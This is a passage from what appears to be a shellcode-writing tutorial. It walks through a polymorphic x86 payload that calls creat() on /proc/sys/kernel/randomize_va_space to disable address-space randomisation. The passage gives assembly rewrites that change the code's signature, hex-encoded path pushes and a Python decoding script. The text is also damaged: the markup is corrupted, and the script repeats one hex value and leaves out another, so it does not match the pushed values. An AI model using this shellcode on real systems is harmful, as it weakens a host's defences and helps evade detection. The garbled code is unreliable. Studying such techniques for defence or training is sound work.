 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><
int creat(const char *pathname, mode</it>t mode);
</pre>

<p style="text-align:justify;">The <strong>creat()</strong> system call returns an integer. There are also two arguments passed to the function, the first is the <strong>pathname</strong> of type<em> char*</em> and the second one is the <strong>mode</strong> of type <em>mode</it>t</em>. Additionally, according to <strong>creat()</strong> general description, the <strong>creat()</strong> system call is equivalent with the following call :</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><
open(path, O_WRONLY|O_CREAT|O_TRUNC, mode)
</pre>

<p style="text-align:justify;">Thus the file named by <span class="ph synph"><span class="ph var">pathname</span></span> is created, unless it already exists. Furthermore, the next instructions will push the following path <strong>/proc/sys/kernel/randomize_va_space</strong> into the stack in order to pass the first argument of the <strong>creat()</strong> system call.</p>
<p>The next instruction will push the <strong>eax</strong> register into the stack</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">push eax </pre>
<p>The above instruction will be changed as follows</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#00ff00;"><span style="color:#00ffff;">;Altered Instructions</span> <br />mov dword [esp-4], eax</span><br /><span style="color:#00ff00;">sub esp, 4</span></pre>
<p style="text-align:justify;">These two instructions are performing the same operation as the <strong>push eax</strong> instruction does. In more detail, <strong>eax</strong> stored in memory using stack pointer minus 4 <strong>[esp-4]</strong> which refers to the <strong>esp </strong>offset regarding the type of the variable kept by <strong>eax</strong> register which is <strong>DWORD</strong> and stands for 32-bit unsigned integer holding 4 bytes in memory. Also, in order to reserve the available space in stack the <strong>sub esp, 4 </strong>instruction has been used, which makes room for one 4 byte local variable. Also, in order to achieve a minimal length of the polymorphic version, the above instructions will be modified and merged with the following instructions that used to pass the path <strong>/proc/sys/kernel/randomize_va_space </strong> as the first argument of <strong>creat() </strong>system call.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">push dword 0x65636170<br />push dword 0x735f6176<br />push dword 0x5f657a69<br />push dword 0x6d6f646e<br />push dword 0x61722f6c<br />push dword 0x656e7265<br />push dword 0x6b2f7379<br />push dword 0x732f636f<br />push dword 0x72702f2f</pre>
<p style="text-align:justify;">Additionally, the following python script will be used as shown below in order to convert the hex values into ASCII chars</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">#!/bin/python<br /><br />print "6d6f646e".decode("hex") \<br />+ "735f6176".decode("hex") + \<br />"5f657a69".decode("hex") + \<br />"6d6f646e".decode("hex") + \<br />"61722f6c".decode("hex") + \<br />"656e7265".decode("hex") + \<br />"6b2f7379".decode("hex") + \<br />"732f636f".decode("hex") + \<br />"72702f2f".decode("hex")</pre>
<p>After running the script above, the path <strong>//proc/sys/kernel/randomize_va_space </strong>will be inserted into the stack in reverse order as seen below</p>